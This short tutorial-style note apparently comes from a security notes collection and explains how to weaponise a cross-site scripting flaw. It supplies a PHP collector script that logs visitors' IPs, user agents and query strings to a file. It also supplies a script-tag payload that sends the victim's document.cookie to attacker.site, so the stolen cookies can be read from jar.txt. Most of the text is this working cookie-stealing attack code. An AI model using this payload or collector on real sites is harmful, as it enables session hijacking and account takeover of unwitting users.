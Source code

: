 # XSS

## get.php 

To store cookie on machine.

```php
<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

# opens a logfile where we save the query
$fp = fopen('jar.txt','a');

fwrite($fp, $ip.' '.$browser."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);
?>
```

Using the PHP file above, if we make a GET request with the following param below, the `hereismydata` value gets stored in the `jar.txt` defined above 

```text
attacker.site/get.php?test=hereismydata
```

Using this, we can weaponize the XSS by crafting a payload to send the victim's cookies into the website. And then navigating to `attacker.site/jar.txt` we will see anyone who has cookies stolen.

```javascript
<script> var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>
//the escape function helps prevent breaking the statement
```

